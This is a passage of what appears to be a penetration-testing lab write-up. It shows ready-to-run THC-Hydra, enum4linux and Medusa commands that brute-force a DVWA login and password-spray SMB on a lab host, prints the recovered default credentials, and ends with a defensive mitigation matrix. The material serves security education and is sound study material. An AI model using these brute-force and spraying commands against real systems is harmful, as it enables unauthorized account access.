

---

### Step 6: Automated Attack with THC-Hydra
To bypass Medusa's HTTP 302 redirect limitations, **THC-Hydra** was deployed using its specialized `http-post-form` module:

```bash
hydra -L users.txt -P pass.txt 192.168.56.101 http-post-form "/dvwa/login.php:username=^USER^&password=^PASS^&Login=Login:F=Login failed"
```

**Parameters breakdown:**
- `-L users.txt`: Iterates over the entire username list (*Black Box* approach).
- `-P pass.txt`: Iterates over the password list.
- `192.168.56.101`: Target web server IP.
- `http-post-form`: Module optimized for HTML form brute-forcing via POST requests.
- `"/dvwa/login.php:..."`: Maps endpoint URI, dynamic replacement variables (`^USER^`, `^PASS^`), and the failure condition string (`F=Login failed`).

> **Result:** Hydra executed all 16 combinations in just 2 seconds, pinpointing the single valid credential set:  
> **`login: admin` | `password: password`**



---

### Step 7: Practical Credential Validation
Performing practical authentication in the DVWA web portal using the recovered credentials:

- **Username:** `admin`
- **Password:** `password`

> **Result:** Successful login granting administrative access to the application dashboard.



---

## 📂 Scenario 3: Attack Chain — SMB Enumeration & Password Spraying (Ports 139/445)

The SMB (*Server Message Block*) protocol is widely used in corporate environments for file and printer sharing. Misconfigurations (such as enabling null sessions or anonymous enumeration) allow attackers to enumerate valid domain/system accounts and conduct *Password Spraying* attacks (testing common weak passwords across multiple accounts to bypass lockout thresholds).

---

### Step 1: User & Share Enumeration (enum4linux)
Mapping legitimate accounts without triggering authentication alarms using **enum4linux**, recording complete output via `tee`:

```bash
enum4linux -a 192.168.56.101 | tee enum4_output.txt
```
- `-a`: Executes all enumeration routines (users, shares, password policies, groups).
- `| tee enum4_output.txt`: Outputs to terminal and writes to a log file simultaneously for offline analysis.




---

### Step 2: Log Triage & Target Filtering
Analyzing the log file using `less` to isolate valid system usernames:

```bash
less enum4_output.txt
```






---

### Step 3: Targeted Wordlists Creation for Password Spraying
Structuring wordlists based on discovered accounts (`user`, `msfadmin`, `service`) and typical weak passwords:

```bash
# Discovered users list
echo -e "user\nmsfadmin\nservice" > smb_users.txt

# Password spray list
echo -e "password\n123456\nWelcome123\nmsfadmin" > senhas_spray.txt

# Verification
cat smb_users.txt
cat senhas_spray.txt
```



---

### Step 4: Medusa Attack (smbnt Module)
Executing automated password spraying using Medusa's NTLM/SMB module:

```bash
medusa -h 192.168.56.101 -U smb_users.txt -P senhas_spray.txt -M smbnt -t 2 -T 50
```

**Parameters breakdown:**
- `-h 192.168.56.101`: Target host IP address.
- `-U smb_users.txt`: User list from enumeration phase.
- `-P senhas_spray.txt`: Password candidate list.
- `-M smbnt`: Medusa module for SMB/NTLM authentication.
- `-t 2`: Restricts execution to 2 threads to reduce network noise.
- `-T 50`: Packet timing control to avoid service exhaustion.

> **Result:** Successfully recovered valid credentials for the SMB file sharing service:  
> **`ACCOUNT FOUND: [smbnt] Host: 192.168.56.101 User: msfadmin Password: msfadmin [SUCCESS]`**



---

### Step 5: Negative Testing & Practical Validation with smbclient
Validating findings with two distinct checks using the native `smbclient` utility:
1. **Negative Test (Deliberate failure):** Connection attempt using an incorrect random password, triggering an immediate access denial (`NT_STATUS_LOGON_FAILURE`).
2. **Positive Test (Verified credentials):** Connection using verified credentials (`msfadmin:msfadmin`).

```bash
# Validating credentials and listing available shares
smbclient -L //192.168.56.101 -U msfadmin
```

> **Result:** Authorized listing of administrative shares and network folders (`IPC$`, `print$`, `opt`, etc.).



---

## 🛡️ Consolidated Defense-in-Depth Mitigation Matrix (Blue Team)

To neutralize attack vectors explored across all tested scenarios (FTP, Web, SMB), organizations should deploy the following controls grounded in the **Defense in Depth** principle:

### 1. Global Identity & Access Governance
- **Multi-Factor Authentication (MFA):** Mandatory MFA across all external and internal authentication surfaces, rendering brute-forced passwords ineffective.
- **Strong Password Policies & Expiration:** Enforce long passwords (12–16+ characters) combining alphanumeric and special characters, cross-referenced automatically against known breached password databases.
- **Smart Account Lockout Policies:** Progressive temporary lockout (e.g., 15–30 minutes) after 3–5 consecutive invalid attempts, mitigating automated bursts without creating permanent Denial-of-Service (*DoS*) conditions.

### 2. Active Monitoring & AI-Driven Detection (SIEM / SOC)
- **Log Centralization & Anomaly Detection:** Aggregate authentication logs into an enterprise SIEM. Deploy AI/ML behavior analytics to detect *Password Spraying* patterns (a single password sprayed across diverse user accounts at spaced intervals).
- **Automated Incident Response:** Dynamically blacklist IP addresses on firewalls upon detecting scanning or brute-force behavior.

### 3. Hardening & Network Segmentation
- **Firewall Segmentation & Isolation:** Confine sensitive protocols (such as SMB on ports 139/445 and FTP) to dedicated administrative *VLANs*, preventing direct exposure to public networks or untrusted guest segments.
- **Legacy Protocol Deprecation:**
  - Deprecate cleartext **FTP** in favor of **SFTP** (via SSH) or **FTPS** (TLS-encrypted).
  - Disable obsolete **SMBv1** and enforce mandatory packet signing (*SMB Signing*) alongside native SMBv3 encryption.
- **Block Anonymous Enumeration (*Null Sessions*):** Configure Samba/Windows servers to reject anonymous guest sessions (`restrictanonymous = 2`), blocking tools like `enum4linux` from harvesting system usernames.

### 4. Governance & Regular Security Assessments
- **Routine Vulnerability Assessments:** Perform scheduled internal vulnerability scans to identify abandoned services, exposed ports, and default credentials before adversaries discover them.
- **Attack Surface Reduction:** Decommission any service or network port that does not fulfill an essential business function.

---

## 📚 Laboratory Conclusion

This hands-on assessment covered the full lifecycle of a technical security audit:
1. **Reconnaissance:** Service discovery via Nmap and automated account enumeration using enum4linux.
2. **Controlled Exploitation:** Targeted brute-force and password-spraying attacks against FTP, Web, and SMB using Medusa and THC-Hydra.
3. **Critical Analysis & Tool Validation:** Identifying tool limitations, debugging false positives caused by HTTP 302 redirects, and confirming genuine access.
4. **Remediation Strategy:** Constructing a multi-layered defensive roadmap, proving that effective enterprise security relies on the balanced integration of technical controls, continuous monitoring, and security awareness.

---

## 🔗 References

- [DIO - Digital Innovation One](https://dio.me)
- [Official Medusa Documentation](http://foofus.net/goons/jmk/medusa/medusa.html)
- [Official THC-Hydra Repository](https://github.com/vanhauser-thc/thc-hydra)
- [enum4linux Guide - Kali Tools](https://www.kali.org/tools/enum4linux/)
- [OWASP - Authentication Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/Authentication_Cheat_Sheet.html)
